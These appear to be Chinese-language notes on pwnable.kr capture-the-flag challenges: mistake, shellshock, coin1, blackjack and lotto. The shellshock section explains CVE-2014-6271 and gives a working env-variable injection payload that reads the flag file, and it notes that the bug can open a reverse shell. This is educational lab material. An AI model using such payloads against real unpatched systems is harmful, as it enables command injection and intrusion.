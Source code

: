 	mistake@ubuntu:~$ ./mistake
	do not bruteforce...
	0000000000
	111input password :1111111111
	Password OK
	Mommy, the operator priority always confuses me :(



# shellshock 

CVE-2014-6271 

http://ydc1992.github.io/2016/04/03/Pwnable-kr-shellshock/
http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/
https://coolshell.cn/articles/11973.html



挖掘该漏洞的方法论： 深入了解bash源码，对bash处理env了如执掌啊

env 环境变量的处理问题，(){ 会被处理成为函数开头，虽然你输入的只是参数，导致代码注入，可以开个反向端口或者shell
一般常用的payload是：

	'(){:;};echo flag'
	':'相当于/bin/true 
    () { :;} 中的冒号就相当于/bin/true，返回true并退出。

构造payload：

    env x='() { :;}; /bin/cat flag' ./shellshock




# coin1 

二分查找，参见代码

关键点：

算法考察，在目标机器运行，否则会很慢，网络延时太大


# balckjack 

对输入参数的大小比较判断，读懂题目


# lotto 

题目考点：

/dev/urandom 产生系统噪声的随机数，通过读这个文件，可以获取随机数。

ascii中0-31（127）是控制字符，其余都是可见字符，再结合题目中说，给出6个小于46的数字，因此把范围缩小到31-46自字段。
